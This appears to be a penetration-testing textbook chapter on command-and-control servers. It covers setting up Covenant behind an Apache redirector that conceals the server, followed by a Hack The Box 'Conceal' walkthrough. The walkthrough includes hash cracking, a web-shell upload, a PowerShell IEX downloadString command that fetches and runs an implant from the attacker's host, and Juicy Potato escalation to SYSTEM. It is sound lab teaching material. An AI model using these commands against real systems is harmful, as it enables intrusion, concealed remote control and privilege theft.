

# Command & Control

> Although more commonly associated with malicious adversaries and Red Teaming, Command and Control (C2) software is essential in a post exploitation environment in which persistence is required. We have already used Metasploit which is a C2 that is run locally. However, C2s need to be able to run on server infrastructure that can be hidden from anyone tracing communications back from a victim's machine. In this chapter, we will look a Covenant, a C2 written in C# that can be run on Linux as well as Windows. To not expose the IP address of the C2 server, we will use an HTTP redirector. We will run through using Covenant creating listeners, launchers and grunts. Getting ownership of one machine may open up opportunities to reach other devices on attached networks. Pivoting is the means of establishing network connections to access these remote networks. We will cover different approaches to


A command-and-control server (C2 or C\&C) is a server that is able to communicate with, and control, software, referred to as an implant, that is running on a victim's device. Normally the communication between implant and C2 will be indirect, passing through a redirector located on a different machine, so as to protect the network address and location of the C2 server. The communication channels between implant and C2 will normally be encrypted and may use a range of protocols including HTTPS, DNS, FTP and SSH. The C2 normally handles creating and using certificates for encrypted communications. The redirector is bi-directional, acting as a proxy and reverse-proxy server. Redirectors can be made to redirect non-C2 traffic to an innocent website. An example of an HTTP redirector that could be used is Apache.

Implants can be programmed to be persistent, and to communicate with the C2 at set time intervals.

C2 services can also provide the ability to create implants of various kinds, handle AV and Firewall evasion and provide monitoring from the implants.

In a normal C2 architecture, the C2 server would be located on its own server with the communication redirector on a separate machine (or machines). A client would be used to communicate with the C2 to issue commands and view results and data exfiltrated from the implants.

From this definition, Metasploit would be considered a C2. Although we have been running it interactively on our attack VM, Metasploit can be hosted remotely and run as a service. Communication with the service is then done through its RPC (Remote Procedure Call) interface which is as simple as using netcat to connect to it. The majority of Metasploit modules are proxy-aware and so can be used through a proxy acting as a redirector for concealment purposes.

C2s can operate independently, programmed to take a course of actions and responses, or they can be used interactively by one or more attackers. In a red team or penetration test operation where there may be more than one person attacking a network, collaboration and sharing of information between team members is important and some C2s offer this type of collaborative functionality.

## Covenant as a C2

We are going to look at Covenant as an example of another type of C2. Covenant is written in C# and although it can be set up on a Linux host, we will run it on Windows as the setup is very straightforward. Covenant calls its implants "Grunts" from the US slang of a low-ranking soldier being called a "grunt". Grunts are created and run by "Launchers" which allow for the use of different languages (PowerShell or C#), evasion techniques, communications type, and execution types. Listeners are the same as handlers on Metasploit. They listen for connections and communicate with grunts sending them Tasks which are commands to carry out and report back on when complete.

### Installing Covenant

To install Covenant, it is simply a matter of cloning the repository from GitHub and running dotnet build and dotnet run as follows:

```bash
git clone --recurse-submodules https://github.com/cobbr/Covenant
cd Covenant/Covenant
dotnet build
dotnet run
```

If you don't have a development environment on Windows, you can download DotNet Core (https://dotnet.microsoft.com/download/dotnet-core/3.1) which was the supported version at the time of writing.

Running Covenant will allow you to navigate to https://127.0.0.1:7443 (you will need to accept the exception to go to the site as the certificate is not trusted) and create a user&#x20;

.png>)

Once logged in, you will be presented with a Dashboard that lists all running Grunts, Listeners and Taskings. A menu on the left allows you to navigate into the different sections of the application.

.png>)


Before we go into using Covenant, we can set up an Apache redirector. We will do that on our Parrot box

## Setting up an Apache HTTP Redirector

We are going to use Apache as an HTTP redirector. To keep things simple, we will not configure SSL but of course in a real situation you would do. Also, we could create a realistic looking website for default traffic coming to the redirector instead of leaving the Apache default home page.

To start with, we need to enable Apache modules, rewrite, proxy, proxy\_http and proxy\_connect:

```bash
sudo a2enmod rewrite proxy proxy_http proxy_connect
```

We will use the default configuration file to make the changes. This should be active but to make sure, we can use the command to enable that site:

```bash
sudo a2ensite 000-default.conf
```

Before we make changes to this file, we need to know the paths that we are going to use. If we go into Covenant and click on the Listeners item in the menu and then select Profiles, you will see a list of possible profiles you can use. Clicking on the DefaultHttpProfile, there is a list of URLs that Covenant will use to communicate between Grunt and Listener:

```
/en-us/index.html
/en-us/docs.html
/en-us/test.html
```

These could be changed but we will leave them for now. So in the configuration file for Apache, we can add the following lines just under the logging section of the configuration

```markup
<VirtualHost *:80>
 ServerAdmin webmaster@localhost
 DocumentRoot /var/www/html
 ErrorLog ${APACHE_LOG_DIR}/error.log
 CustomLog ${APACHE_LOG_DIR}/access.log combined
 ProxyRequests off
 ProxyPass /en-us/index.html http://192.168.114.3/en-us/index.html
 ProxyPass /en-us/docs.html http://192.168.114.3/en-us/docs.html
 ProxyPass /en-us/test.html http://192.168.114.3/en-us/test.html
 ProxyPassReverse /en-us/index.html http://192.168.114.3/en-us/index.html
 ProxyPassReverse /en-us/docs.html http://192.168.114.3/en-us/docs.html
 ProxyPassReverse /en-us/test.html http://192.168.114.3/en-us/test.html
</VirtualHost>
```

The "ProxyRequests off" statement disables proxying for anything other than the proxy requests defined after it. The ProxyPass statement takes all traffic for the paths specified and forwards it to the Covenant server at 192.168.114.3. The ProxyPassReverse statement will re-write URLs in the reply so that responses come back to the proxy server and not directly back to the Covenant server.

Once these changes are made, we can restart the Apache server and check that the home page is working as expected.

```bash
service apache2 restart
```

.png>)

We can now go back to Covenant and create a Listener. The only thing we need to do here is to add and entry for the ConnectAddresses that points to the redirector (Figure 10-4). We can leave the HTTP profile as default. In practice, we could change the URLs and the contents of the messages that are sent to and from the grunt as the defaults are pretty basic.

.png>)

Once this is done, we can now use a Launcher to create the PowerShell script that we could run on a target host. Again, we will leave everything as is and just select Redirect as the Listener if it hasn't done this automatically&#x20;

.png>)

Once this code is run (we can run it on the same machine, it will send its communications via the redirector in any case), we will see a grunt being activated and appear in the Dashboard of Covenant. The grunt will by default report back information about the user and computer that it is running on

.png>)

We can now interact with the grunt using the Interact tab and use one of a selection of different commands or tasks such as whoami

.png>)

Covenant provides a long list of other tasks that can be run on the target machine that include methods for bypassing AMSI and UAC, uploading and downloading files, navigating the file system and running software and other commands.

### Hack The Box Case Study: Conceal

Conceal is a Windows box that requires enumeration of UDP to discover information available through SNMP. With this information, you can configure a IPSec VPN to connect to the box and then enumerate the TCP ports. The machine has FTP and HTTP open and using that we can upload a reverse shell, execute it through the web application and then get onto the box. Once there, the privilege escalation is straightforward as the user has the SeImpersonate privilege which can be exploited via Juicy Potato. Once the enumeration and IPSec VPN is set up, we will exploit the box using Covenant.

An initial nmap scan reveals no TCP ports open. Doing a UDP scan shows two open ports. 161 which is running an SNMP process and 500 which is running an IKE VPN port. nmap will enumerate public information from this interface and so returns information about network interfaces, network ports that are open on the machine and processes that are running:

```bash
PORT STATE SERVICE VERSION
161/udp open snmp SNMPv1 server (public)
| snmp-interfaces:
| Software Loopback Interface 1\x00
| IP address: 127.0.0.1 Netmask: 255.0.0.0
| Type: softwareLoopback Speed: 1 Gbps
| Status: up
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| WAN Miniport (IKEv2)\x00
| Type: tunnel Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| vmxnet3 Ethernet Adapter\x00
| IP address: 10.129.1.51 Netmask: 255.255.0.0
| MAC address: 00:50:56:b9:31:39 (VMware)
| Type: ethernetCsmacd Speed: 4 Gbps
| Status: up
| Traffic stats: 539.69 Kb sent, 20.09 Mb received
| WAN Miniport (PPTP)\x00
| Type: tunnel Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| Microsoft Kernel Debug Network Adapter\x00
| Type: ethernetCsmacd Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| WAN Miniport (L2TP)\x00
| Type: tunnel Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| Teredo Tunneling Pseudo-Interface\x00
| MAC address: Unknown
| Type: tunnel Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
| WAN Miniport (IP)\x00
| Type: ethernetCsmacd Speed: 0 Kbps
| Traffic stats: 0.00 Kb sent, 0.00 Kb received
<SNIP>
| snmp-netstat:
| TCP 0.0.0.0:21 0.0.0.0:0
| TCP 0.0.0.0:80 0.0.0.0:0
| TCP 0.0.0.0:135 0.0.0.0:0
| TCP 0.0.0.0:445 0.0.0.0:0
| TCP 0.0.0.0:49664 0.0.0.0:0
| TCP 0.0.0.0:49665 0.0.0.0:0
| TCP 0.0.0.0:49666 0.0.0.0:0
| TCP 0.0.0.0:49667 0.0.0.0:0
| TCP 0.0.0.0:49668 0.0.0.0:0
| TCP 0.0.0.0:49669 0.0.0.0:0
| TCP 0.0.0.0:49670 0.0.0.0:0
| TCP 10.129.1.51:139 0.0.0.0:0
| UDP 0.0.0.0:123 *:*
| UDP 0.0.0.0:161 *:*
| UDP 0.0.0.0:500 *:*
| UDP 0.0.0.0:4500 *:*
| UDP 0.0.0.0:5050 *:*
| UDP 0.0.0.0:5353 *:*
| UDP 0.0.0.0:5355 *:*
| UDP 0.0.0.0:62366 *:*
| UDP 10.129.1.51:137 *:*
| UDP 10.129.1.51:138 *:*
| UDP 10.129.1.51:1900 *:*
| UDP 10.129.1.51:53925 *:*
| UDP 127.0.0.1:1900 *:*
|_ UDP 127.0.0.1:53926 *:*
| snmp-processes:
| 1:
| Name: System Idle Process
| 4:
| Name: System
| 292:
| Name: smss.exe
| 320:
| Name: svchost.exe
| Path: C:\Windows\System32\
| Params: -k LocalServiceNetworkRestricted
| 340:
| Name: svchost.exe
| Path: C:\Windows\system32\
| Params: -k LocalServiceNoNetwork
| 372:
| Name: csrss.exe
| 456:
| Name: wininit.exe
| 468:
| Name: csrss.exe
| 472:
| Name: svchost.exe
| Path: C:\Windows\system32\
| Params: -k LocalService
| 540:
| Name: winlogon.exe
| 600:
| Name: services.exe
| 608:
| Name: lsass.exe
| Path: C:\Windows\system32\
| 696:
| Name: svchost.exe
| Path: C:\Windows\system32\
| Params: -k DcomLaunch
| 712:
| Name: fontdrvhost.exe
| 720:
| Name: fontdrvhost.exe
| 808:
| Name: svchost.exe
| Path: C:\Windows\system32\
| Params: -k RPCSS
| 892:
| Name: dwm.exe
| 948:
| Name: svchost.exe
| Path: C:\Windows\system32\
| Params: -k netsvcs
<SNIP>
```

We can use the utility snmpwalk.pl to enumerate SNMP on the machine. As a reminder, SNMP is the Simple Network Management Protocol which is a protocol for collecting information from devices and sending commands to control them. SNMP uses a hierarchical namespace to organize information about a device. This is called a management information base (MIB). MIBs use object identifiers (OID) to identify individual items within a MIB.

When we do snmapwalk on Conceal, we get a huge amout of information back although the OIDs are not translated into proper labels.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Conceal]
└──╼ $perl /usr/share/doc/libnet-snmp-perl/examples/snmpwalk.pl -c public -v2c conceal.htb
1.3.6.1.2.1.1.1.0 = OCTET STRING: Hardware: AMD64 Family 23 Model 49 Stepping 0 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build
 15063 Multiprocessor Free)
1.3.6.1.2.1.1.2.0 = OBJECT IDENTIFIER: 1.3.6.1.4.1.311.1.1.3.1.1
1.3.6.1.2.1.1.3.0 = TimeTicks: 23 hours, 34:05.00
1.3.6.1.2.1.1.4.0 = OCTET STRING: IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
1.3.6.1.2.1.1.5.0 = OCTET STRING: Conceal
1.3.6.1.2.1.1.6.0 = OCTET STRING:
1.3.6.1.2.1.1.7.0 = INTEGER: 76
1.3.6.1.2.1.2.1.0 = INTEGER: 16
1.3.6.1.2.1.2.2.1.1.1 = INTEGER: 1
1.3.6.1.2.1.2.2.1.1.2 = INTEGER: 2
1.3.6.1.2.1.2.2.1.1.3 = INTEGER: 3
1.3.6.1.2.1.2.2.1.1.4 = INTEGER: 4
1.3.6.1.2.1.2.2.1.1.5 = INTEGER: 5
1.3.6.1.2.1.2.2.1.1.6 = INTEGER: 6
1.3.6.1.2.1.2.2.1.1.7 = INTEGER: 7
1.3.6.1.2.1.2.2.1.1.8 = INTEGER: 8
1.3.6.1.2.1.2.2.1.1.9 = INTEGER: 9
1.3.6.1.2.1.2.2.1.1.10 = INTEGER: 10
1.3.6.1.2.1.2.2.1.1.11 = INTEGER: 11
1.3.6.1.2.1.2.2.1.1.12 = INTEGER: 12
1.3.6.1.2.1.2.2.1.1.13 = INTEGER: 13
1.3.6.1.2.1.2.2.1.1.14 = INTEGER: 14
1.3.6.1.2.1.2.2.1.1.15 = INTEGER: 15
1.3.6.1.2.1.2.2.1.1.16 = INTEGER: 16
1.3.6.1.2.1.2.2.1.2.1 = OCTET STRING: Software Loopback Interface 1
1.3.6.1.2.1.2.2.1.2.2 = OCTET STRING: WAN Miniport (IKEv2)
1.3.6.1.2.1.2.2.1.2.3 = OCTET STRING: vmxnet3 Ethernet Adapter
<SNIP>
```

One thing we notice immediately is that there is an IKE VPN password PSK (pre-shared key) which is 9C8B1A372B1878851BE2C097031B6E43. If we check this hash online, or through listing hashcat hash examples, it is likely to be an NTLM hash. We can crack it with hashcat as follows:

```bash
┌─[rin@parrot]─[~/boxes/Conceal]
└──╼ $hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
<SNIP>
9c8b1a372b1878851be2c097031b6e43:Dudecake1!
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
```

We get the password "Dudecake!". Before we leave the SNMP enumeration, we can use another utility to enumerate it called snmp-check:

```bash
┌─[rin@parrot]─[~/boxes/Conceal] [454/578]
└──╼ $snmp-check 10.129.90.149
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)
[+] Try to connect to 10.129.90.149:161 using SNMPv1 and community 'public'
[*] System information:
 Host IP address : 10.129.90.149
 Hostname : Conceal
 Description : Hardware: AMD64 Family 23 Model 49 Stepping 0 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build
 15063 Multiprocessor Free)
 Contact : IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43
 Location : -
 Uptime snmp : 00:11:32.37
 Uptime system : 00:11:17.93
 System date : 2021-2-1 02:45:52.0
 Domain : WORKGROUP
[*] User accounts:
 Guest
 Destitute
 Administrator
 DefaultAccount
<SNIP>
```

This produces labelled information from SNMP largely of the same content that was enumerated by nmap. We can see that there is a WAN Miniport (IKEv2) interface that is marked as being down. This, along with the open UDP port 500 and the IKE password suggests that the machine supports an IPSec VPN. The TCP connections show that FTP and HTTP are running on ports 21 and 80 but just not accessible from the outside, as we have previously seen from the nmap scan.

To explore the IPSec on Conceal, we can use ike-scan:

```bash
┌─[rin@parrot]─[~/boxes/Conceal]
└──╼ $sudo ike-scan -M 10.129.90.149
Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.129.90.149 Main Mode Handshake returned
 HDR=(CKY-R=7eb8e09a6a37c7b8)
 SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration(4)=0x00007080)
 VID=1e2b516905991c7d7c96fcbfb587e46100000009 (Windows-8)
 VID=4a131c81070358455c5728f20e95452f (RFC 3947 NAT-T)
 VID=90cb80913ebb696e086381b5ec427b1f (draft-ietf-ipsec-nat-t-ike-02\n)
 VID=4048b7d56ebce88525e7de7f00d6c2d3 (IKE Fragmentation)
 VID=fb1de3cdf341b7ea16b7e5be0855f120 (MS-Negotiation Discovery Capable)
 VID=e3a5966a76379fe707228231e5ce8652 (IKE CGA version 1)
Ending ike-scan 1.9.4: 1 hosts scanned in 0.338 seconds (2.96 hosts/sec). 1 returned handshake; 0 returned notify
```

The important information from this is the SA= line which represents the security association configuration information. ike-scan can sometimes get the hash using aggressive mode, but we already have the hash and in any case it doesn't work on Conceal.

We are going to use Windows for the next phase and set up an IPSec tunnel. To set up an IPSec tunnel, we go into the Windows Defender Firewall with Advanced Security application and click New Rule on Connection Security Rules (Figure 10-8)

.png>)

Creating a new IPSec connection on Windows

.png>)

Specifying the IP address of conceal.htb and our box

We can leave the default setting for authentication inbound and outbound and then select the Advanced option for the Authentication Method

.png>)

Specifying the authentication method as a Preshared key **Dudecake1!**

We need to select the protocol type as TCP that will be carried by the tunnel

.png>)

Configure the protocol type as TCP

Finally, we give the connection a name and then can check if it is working by doing an nmap scan on port 445

```
c:\Users\rin\Desktop
nmap -p 445 -sT conceal.htb
<SNIP>
PORT STATE SERVICE
445/tcp open microsoft-ds
```

Now that we have a working tunnel in place, we can check FTP for anonymous access which it allows. There is nothing in the directory but it seems that we can upload files. Uploading a test.html file, we can navigate to the website on Conceal and that reveals the default IIS page. Putting in the URL http://conceal.htb/test.html gives a file not found. We could run gobuster on the site to see what the directory structure is but testing the a few well known paths gives us a hit on http://conceal.htb/upload/test.html.

So we can upload files and access them via the web. This will allow us to upload a web shell from https://github.com/tennc/webshell/tree/master/asp. Lets upload that using ftp:

```bash
c:\Users\rin\Desktop
λ ftp conceal.htb
Connected to conceal.htb.
220 Microsoft FTP Service
200 OPTS UTF8 command successful - UTF8 encoding now ON.
User (conceal.htb:(none)): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
ftp> put webshell.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp: 1405 bytes sent in 0.39Seconds 3.65Kbytes/sec.
ftp>
```

Typing in whoami into the cmd gives us conceal\destitute (Figure 10-12)



On Covenant, we can use a Launcher to get a PowerShell script that we can put into a file grunt.ps1 and serve it using python -m http.server 8000 -bind 10.10.14.117. From the webshell, we can use the command:

```bash
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.117:8000/grunt.ps1')"
```

You should see a hit on the python web server and then in Covenant, a notification that the grunt is active. Interacting with the grunt, we can send command such as whoami

```bash
[2/1/2021 5:34:27 AM UTC] WhoAmI completed
(admin) > whoami
CONCEAL\Destitute
```

We can run Seatbelt -group=all which is an application like winPEAS and suggest privilege escalations for us. Going through the output, the current user has SeImpersonatePrivilege privilege. This means we can probably use Juicy Potato. We can get a release version of this from GitHub (https://github.com/ohpe/juicy-potato) and upload it using the command upload in Covenant. We can upload to c:\Users\Destitute\Desktop. We will also upload the PowerShell script from the Launcher as a batch file. We can run Juicy Potato then with the command

```bash
(admin) > cmd .\juicy.exe -t * -p c:\users\destitute\desktop\grunt.bat -l 9001 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 9001
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

Note that the CLSID is something that I got from the site https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows\_10\_Enterprise) and it is for the Windows Update Server (wuaserv). On running the batch file, we will get another grunt activated on Covenant and this time it will be as user NT Authority\System

```bash
[2/1/2021 6:05:20 AM UTC] WhoAmI completed
(admin) > whoami
NT AUTHORITY\SYSTEM
```
